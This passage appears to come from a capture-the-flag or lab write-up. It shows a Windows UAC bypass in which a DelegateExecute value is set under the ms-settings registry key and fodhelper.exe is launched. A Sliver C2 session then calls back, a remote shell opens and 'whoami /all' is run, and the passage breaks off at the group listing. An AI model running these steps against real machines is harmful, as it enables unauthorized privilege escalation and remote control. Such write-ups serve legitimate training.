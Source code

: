 ```c
PS C:\Users\admin\Downloads> New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force


DelegateExecute : 
PSPath          : Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open\command
PSParentPath    : Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open
PSChildName     : command
PSDrive         : HKCU
PSProvider      : Microsoft.PowerShell.Core\Registry
```

```c
PS C:\Users\admin\Downloads> Start-Process "C:\Windows\System32\fodhelper.exe"
Start-Process "C:\Windows\System32\fodhelper.exe"
```

After a few seconds we got our callback.

![](images/2024-02-15_19-18_sliver_session.png)

We switched sessions and checked our privileges.

```c
sliver (lock-https) > use 1312d08e-ff69-42aa-83c5-1f20e35d0af4

[*] Active session lock-https (1312d08e-ff69-42aa-83c5-1f20e35d0af4)

sliver (lock-https) > shell

? This action is bad OPSEC, are you an adult? Yes

[*] Wait approximately 10 seconds after exit, and press <enter> to continue
[*] Opening shell tunnel (EOF to exit) ...

[*] Started remote shell with pid 3452

PS C:\Users\admin\Downloads>
```

```c
PS C:\Users\admin\Downloads> whoami /all
whoami /all

USER INFORMATION
----------------

User Name    SID                                           
============ ==============================================
escape\admin S-1-5-21-3698417267-3345840482-3422164602-1001


GROUP INFORMATION
-----------------

Group Name                                                Type             SID          Attributes                                                     
```